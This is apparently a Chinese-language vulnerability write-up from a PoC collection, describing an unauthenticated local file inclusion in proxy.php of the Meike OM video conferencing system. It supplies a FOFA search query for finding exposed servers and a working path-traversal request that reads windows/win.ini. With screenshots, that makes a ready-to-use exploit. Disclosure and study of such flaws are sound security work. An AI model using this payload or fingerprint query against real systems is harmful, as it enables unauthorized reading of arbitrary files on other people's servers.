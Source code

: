 # 魅课 OM视频会议系统 proxy.php 文件包含漏洞

## 漏洞描述

魅课OM视频会议系统 proxy.php文件target参数存在本地文件包含漏洞。攻击者可借助该漏洞无需登录便可下载任意文件。

## 漏洞影响

```
魅课OM视频会议系统
```

## FOFA

```
app="OMEETING-OM视频会议"
```

## 漏洞复现

登录页面

![image-20220525153028849](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251530024.png)

验证POC

```
/admin/do/proxy.php?method=get&target=../../../../../../../../../../windows/win.ini
```

![image-20220525153105283](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251531338.png)